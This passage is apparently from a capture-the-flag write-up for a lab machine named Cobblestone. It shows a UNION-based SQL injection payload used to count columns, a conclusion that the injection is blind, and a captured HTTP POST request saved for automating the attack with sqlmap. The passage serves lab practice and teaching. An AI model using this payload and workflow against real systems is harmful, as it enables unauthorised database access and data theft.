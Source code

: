 ![](<./attachments/Cobblestone-22.png>)
Got `500 Internal Server Error`, hmm this could be a good sign for [SQLi](https://portswigger.net/web-security/sql-injection). 

---
# Exploitation
## SQL Injection
So continue to testing out how many columns we got with this payload `99999' UNION ALL SELECT NULL, NULL, NULL, NULL, NULL, NULL #` and the result is `500`. Then decrease one column and we got `200`.  
 - So we can conclude that this is Blind SQli and got 5 columns. To make it automate, we gonna use `sqlmap` to do this.

First we gonna `Copy to file` the following request in burpsuite and save it as `req`.
```bash
POST /suggest.php HTTP/1.1
Host: vote.cobblestone.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://vote.cobblestone.htb/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://vote.cobblestone.htb
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=qhiahp523saks7b5bcbikm8tle
Upgrade-Insecure-Requests: 1
Priority: u=0, i

url=http%3A%2F%2Fvote.cobblestone.htb%2Findex.php
```
